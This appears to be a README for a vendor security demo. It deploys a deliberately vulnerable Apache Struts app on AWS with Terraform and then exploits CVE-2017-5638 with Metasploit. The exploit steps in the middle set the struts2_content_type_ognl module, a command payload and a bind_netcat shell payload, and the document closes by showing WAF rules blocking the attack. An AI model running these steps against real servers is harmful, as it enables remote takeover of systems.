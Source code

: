 ## Overview
This demo is created to exploit apache struts with CVE-2017-5638. It will deploy vulnerable struts version with sample demo application on AWS.
Demo is created for 3 AWS regions (Ohio, Oregon, Ireland) with default Ohio region setup. AMI images used in Demo is available in these 3 regions as public AMIs.
In order to setup the environment few hardcoded modifications need to be done on terraform code.

 
## Pre-requisites:
- AWS IAM account with administrator access
- Terraform need to be deployed on user's system with basic configuration
- Metasploit with latest msfupdate in attacker machine.
- if you are setting uo victim outside AWS then you can use following blog post for victim setup.
  http://blog.ud64.com/2017/09/apache-struts-with-cve-2017-5638-set-up.html

NOTE: if in case tomcat service is not started. you can login to EC2 instance and start the same using "#sudo $CATALINA_HOME/bin/startup.sh"

## Hardcoded modifications
- user_data.sh is a bootstrap script which can be modify to add Trend Micro DS agent configuration  
- EC2 Keys are stored in /Scripts directory. you can use the .pem or .ppk to login to EC2 instance over the internet.

## Generic steps for victim setup:
### 1
Deploy terraform template on AWS using terraform plan and terraform apply.
  terraform init
  terraform apply

### 2
Victim domain name will be available in terraform apply output. we have to use the same during our attack 
We have configured proxy with ELB to convert port 8080 to 80.  

### 3
Application URL is configured as struts2_2.3.15.1-showcase/showcase.action

### 4
We can use generic payload for the demo.

set PAYLOAD cmd/unix/generic
set CMD "touch /tmp/hackedsystemexec64"
set PAYLOAD cmd/unix/bind_netcat


### Exploit demo execution steps:
#### Step 1:Open metasploit in attacker system 

#### step 2: search for the CVE-2017-5638
msf>search CVE-2017-5638

#### step 3: use the exploit
msf> use exploit/multi/http/struts2_content_type_ognl

#### step 4: configure the application paramenter in exploit options
msf exploit> show options
msf exploit> set RHOST <Domain name of cloudfront> 
msf exploit> set RPORT 80
msf exploit> set TARGETURI struts2_2.3.15.1-showcase/showcase.action
msf exploit> show options


#### step 5: configure payload
msf exploit> set PAYLOAD cmd/unix/generic
msf exploit> show payload
msf exploit> set CMD "touch /tmp/hackedsystemexec64"
msf exploit> exploit

Also taking over the system can be possible
msf exploit> set PAYLOAD cmd/unix/bind_netcat
msf exploit> exploit

cmd> id
cmd> whoami


####step 6: SSH to public ip of victim server and show the affected file



Complete!!!.. now show the protection with Deep security and/or Trend Micro managed WAF rules. 

---------------------------Protection with Trendmicro managed WAF rules or with DS---------

NOW, Login to AWS WAF portal and click on Web ACLs 
-> select Trendmicro-Managed-Rule-ACL
-> select rules tab in right side
-> edit ACL and select Trendmicro managed WAF rule (Apache and Ngnix)
-> now run the exploit again. it should fail
